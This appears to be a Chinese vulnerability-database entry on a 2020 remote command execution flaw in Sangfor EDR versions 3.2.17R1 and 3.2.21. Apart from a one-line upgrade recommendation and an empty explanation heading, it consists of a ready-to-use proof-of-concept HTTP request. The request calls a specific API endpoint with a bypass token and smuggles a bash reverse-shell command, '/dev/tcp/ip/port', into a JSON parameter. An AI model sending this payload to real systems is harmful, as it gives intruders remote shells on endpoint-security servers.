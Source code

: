 ```yaml
---
title: '深信服EDR-远程命令执行-2020-hvv2'
date: Sat, 12 Sep 2020 02:19:51 +0000
draft: false
tags: ['白阁-漏洞库']
---
```


#### 影响范围

受影响版本为3.2.17R1, 3.2.21两个版本，如果为这两个版本建议升级版本至 3.2.21.375

#### 漏洞原理

 

 POC

```html
POST /api/edr/sangforinter/v2/cssp/slog_client?token=eyJtZDUiOnRydWV9 HTTP/1.1
Host: xx.x.x.x
Connection: close
Accept-Encoding: gzip, deflate
Accept: */*
User-Agent: python-requests/2.22.0
Content-Length: 77

{"params": "w=123\"'1234123'\"|bash -i >& /dev/tcp/ip/port 0>&1"} 
```

